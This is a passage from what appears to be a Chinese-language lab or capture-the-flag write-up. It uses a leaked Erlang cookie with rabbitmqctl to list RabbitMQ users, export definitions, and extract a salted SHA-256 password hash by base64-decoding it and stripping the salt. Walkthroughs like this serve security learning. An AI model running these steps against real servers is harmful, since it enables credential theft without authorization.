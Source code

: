 ``` Shell
sudo rabbitmqctl --erlang-cookie 'aKQCJe8w9xOgSzl4' --node rabbit@forge list_users
```



![](images/dda8f32d8b21045f418452d3c4e7648a.png)
发现用户密码是sha-256，检索实例的哈希

``` Shell
sudo rabbitmqctl --erlang-cookie 'aKQCJe8w9xOgSzl4' --node rabbit@forge export_definitions /tmp/definitions.json
```



![](images/1f6363f4d9286218802be138d16be286.png)
哈希值采用base64编码，根据文档`base64(<4 byte salt> + sha256(<4 byte salt> + <password>))`
为获得hash先将base64转化为十六进制

``` Shell
echo -n '49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF' | base64 -d | xxd -p -c 100

e3d7ba85295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585
```

删除开头四字节盐，剩下的为hash值

```
295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585
```
